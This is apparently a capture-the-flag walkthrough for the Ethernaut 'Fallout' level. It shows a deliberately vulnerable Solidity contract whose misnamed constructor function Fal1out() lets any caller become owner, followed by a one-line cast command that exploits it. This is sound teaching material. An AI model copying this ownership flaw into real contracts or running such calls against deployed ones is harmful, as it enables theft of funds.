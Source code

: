 ## Fallback Level Outline


**Difficulty : 2/10**

Claim ownership of the contract below to complete this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
    require(
      msg.sender == owner,
      "caller is not the owner"
    );
    _;
  }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x5732B2F88cbd19B6f01E3a96e9f0D90B917281E5)

## Solution

Notice how the contract's "contructor" is not really a constructor

### Walkthrough
1. Call the "Fal1out()" function
```console
cast send $LEVEL_ADDRESS "Fal1out()" --private-key $PRIVATE_KEY
```
